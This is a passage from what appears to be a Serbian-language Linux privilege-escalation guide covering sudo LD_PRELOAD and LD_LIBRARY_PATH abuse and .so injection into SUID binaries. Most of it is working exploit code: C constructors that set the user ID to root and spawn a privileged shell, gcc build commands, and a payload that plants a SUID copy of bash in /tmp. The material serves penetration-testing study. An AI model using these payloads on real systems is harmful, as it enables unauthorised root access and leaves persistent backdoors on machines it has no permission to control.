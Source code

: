 Zatim **kompajlirajte ga** koristeći:

```bash
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles
```

Konačno, **povećaj privilegije** pokretanjem

```bash
sudo LD_PRELOAD=./pe.so <COMMAND> #Use any command you can run with sudo
```

{% hint style="danger" %}
Sličan privesc može biti zloupotrebljen ako napadač kontroliše **LD\_LIBRARY\_PATH** env varijablu jer kontroliše putanju gde će se biblioteke tražiti.
{% endhint %}

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}
```

```bash
# Compile & execute
cd /tmp
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp <COMMAND>
```

### SUID binarni fajl - .so ubacivanje

Kada naiđete na binarni fajl sa **SUID** dozvolama koji deluje neobično, dobra praksa je da proverite da li pravilno učitava **.so** fajlove. To možete proveriti pokretanjem sledeće komande:

```bash
strace <SUID-BINARY> 2>&1 | grep -i -E "open|access|no such file"
```

Na primer, susretanje sa greškom kao što je _"open(“/path/to/.config/libcalc.so”, O\_RDONLY) = -1 ENOENT (Nema takvog fajla ili direktorijuma)"_ ukazuje na potencijal za iskorišćavanje.

Da biste iskoristili ovo, trebali biste nastaviti tako što ćete kreirati C fajl, recimo _"/path/to/.config/libcalc.c"_, koji sadrži sledeći kod:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
